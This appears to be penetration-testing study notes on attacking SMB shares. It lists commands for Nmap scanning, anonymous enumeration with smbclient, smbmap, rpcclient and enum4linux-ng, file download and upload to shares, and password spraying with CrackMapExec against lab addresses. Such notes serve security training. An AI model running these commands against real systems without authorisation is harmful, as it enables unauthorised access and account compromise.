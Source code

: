 
## Attacking SMB

### Enumeration

#### Scanning SMB with Nmap
```Shell
nmap 10.129.14.128 -sV -sC -p139,445
```

### Misconfigurations

#### Anonymous Authentication with smbclient
```Shell
smbclient -N -L //10.129.14.128
```

#### Anonymous Authentication - Enumeration with smbmap
```Shell
smbmap -H 10.129.14.128
```

#### Anonymous Authentication - Enumeration with smbmap - browsing directories
```Shell
smbmap -H 10.129.14.128 -r notes
```

#### Anonymous Authentication - READ and WRITE files to SMB Share
```Shell
smbmap -H 10.129.14.128 --download "notes\note.txt"
```

```Shell
smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
```

#### Remote Procedure Call (RPC)
```Shell
rpcclient -U'%' 10.10.110.17
```
[SANS Cheatsheet for RPC Client](https://www.willhackforsushi.com/sec504/SMB-Access-from-Linux.pdf)

#### enum4linux-ng.py
```Shell
enum4linux-ng 10.10.11.45 -A -C
```

### Brute Forcing and Password Spraying

#### Password Spraying with CrackMapExec
```Shell
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'
```
*Note: By default CME will exit after a successful login is found. Using the ==`--continue-on-success`== flag will continue spraying even after a valid password is found. it is very useful for spraying a single password against a large user list. *
